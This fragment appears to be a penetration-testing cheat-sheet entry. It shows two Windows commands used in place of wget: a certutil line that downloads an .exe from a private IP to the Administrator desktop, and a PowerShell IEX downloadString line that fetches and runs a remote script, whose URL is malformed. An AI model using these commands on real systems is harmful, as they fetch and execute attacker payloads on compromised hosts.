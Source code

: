 ```certutil -urlcache -f http://192.168.0.1/somefile.exe c:\users\administrator\desktop``` - wget for windows

```powershell "IEX(New-Object Net.WebClient)downloadString('http:/192.168.0.10/some.ps1')"``` > old version of wget 
